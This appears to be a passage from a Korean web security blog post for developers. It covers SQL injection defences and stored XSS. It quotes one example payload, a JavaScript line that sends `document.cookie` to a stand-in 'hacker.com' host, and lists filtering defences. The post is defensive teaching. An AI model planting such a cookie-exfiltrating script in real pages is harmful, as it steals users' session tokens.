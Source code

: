 &nbsp;위 세 가지 공격 방법에 대한 치트 시트가 존재한다. 조금 더 자세히 알고 싶다면 이 [링크](https://perspectiverisk.com/mysql-sql-injection-practical-cheat-sheet/)를 확인해보자.

### 주의 할 점

&nbsp;프레임워크나 라이브러리에서 이스케이핑을 통해 방어해주더라도 무작정 신뢰할 수는 없다. 혹시 모를 사고에 대비하기 위해 추가적인 작업을 할 수 있다.

* 파라미터 Validation
* [apache-scalp](https://code.google.com/archive/p/apache-scalp/)와 같은 공격 로그 분석 툴을 사용한다.

## Cross-Site Scription (XSS)

&nbsp;웹 페이지에 악성 자바스크립트를 삽입하는 공격이다. 이 공격을 이용하면 사이트 이용자의 정보를 손쉽게 탈취할 수 있다. 아주 간단한 사례를 살펴보면 사용자가 입력할 수 있는 게시판 같은 페이지에 자바스크립트 코드를 입력하는 것이다.

<figure>
  <img src="/assets/img/2021-02-28-basic-web-hacking/xss-example.png" />
  <figcaption>만약 필터링이 안된다면...</figcaption>
</figure>

&nbsp;공격 방법은 단순하지만 아주 효과적이다. 최근엔 SPA(Single-Page Application)로 배포되는 서비스가 많은데, 인증 관리를 위해 토큰은 `Cookie` 혹은 `localStorage`에 저장하는 경우가 많다. 이때 **XSS** 방어 준비가 되어있지 않은 경우 자바스크립트를 통해 불특정 다수의 사용자 토큰을 손쉽게 탈취 할 수 있다. 위 사진을 보면 `document.URL = 'http://hacker.com?cookie'+document.cookie`를 통해 해커 사이트에 쿠키 정보를 전달하는 것을 확인 할 수 있다.

&nbsp;SQL Injection처럼 XSS도 필터링을 통해 쉽게 방어할 수 있다. 다음과 같이 꼼꼼하게 방어하자.

* 서버에 데이터를 저장할 때 HTML 필터링을 한 후 데이터베이스에 저장한다.<br />ex) <, >, script, style, &, /, ...
* 후술할 **Reflected XSS**나 **DOM Based XSS** 공격 방어를 위해 서버에서 파라미터 검증을 한다.
* 혹시나 모를 상황에 대비하여 프론트엔드에서도 필터링이 필요하다.

&nbsp;앞서 소개한 공격 방법은 **Stored XSS**라고 부른다. 다른 유명한 공격 방법은 Reflected XSS와 DOM Based XSS가 있다. 아마 Stored XSS은 너무 유명해서 많은 개발자들이 이미 알고 있었을 것이라 생각한다. 하지만 나머지 두 공격은 잘 모르는 개발자들이 꽤 있다.
